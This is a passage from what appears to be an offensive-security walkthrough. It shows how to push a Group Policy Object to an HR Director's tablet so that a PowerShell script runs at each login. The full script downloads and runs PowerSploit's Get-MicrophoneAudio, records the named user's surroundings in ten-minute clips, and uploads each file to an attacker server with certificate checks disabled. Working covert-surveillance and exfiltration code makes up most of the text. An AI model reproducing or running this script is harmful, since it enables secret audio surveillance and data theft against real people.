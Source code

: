 GPOs allow us to push specific settings or scripts to targeted machines. Our plan is to create a GPO that targets the HR Director’s tablet and instructs it to run a PowerShell script every time Elise logs in. This script will record ambient audio using the device’s microphone and then upload it to our server every 10 minutes.

First, let’s look at the PowerShell script that does the recording. We’ll use the PowerSploit module Get-MicrophoneAudio by @sixdub and set up a loop to record and save the audio files:

```
while($true)
{
    $i++;
    $browser = New-Object System.Net.WebClient
    $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
    IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1"));
    Get-MicrophoneAudio -path c:\users\ejansen\appdata\local\file$i.wav -Length 600
}
```

Note: *```$i++``` increments the variable ```$i``` each time the loop runs, ensuring that each audio file has a unique filename (e.g., file1.wav, file2.wav, etc.). This prevents the script from overwriting previous recordings.*

Overall, this script continuously records 10-minute audio clips, naming each file sequentially (e.g., file1.wav, file2.wav, etc.) to avoid overwriting. The audio is saved locally on the target’s device.

Next, we need to upload these recordings to our server. To avoid interrupting the recording process, the upload is handled by a background job:

```
while($true)
{
    $i++;
    $browser = New-Object System.Net.WebClient
    $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
    IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1"));
    Get-MicrophoneAudio -path c:\users\ejansen\appdata\local\file$i.wav -Length 600

    start-job -Name Para$i -ArgumentList $i -ScriptBlock{
        $i = $args[0];
        $browser = New-Object System.Net.WebClient;
        $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
        $browser.uploadFile("https://<AttackServer_ip>/", "c:\users\ejansen\appdata\local\file$i.wav");
    }
}
```

This second part of the script creates a new job (start-job) for each upload, allowing the script to continue recording without delays. The job uploads the file to a specified server, using a simple SSL bypass to accept any certificates, including self-signed ones.
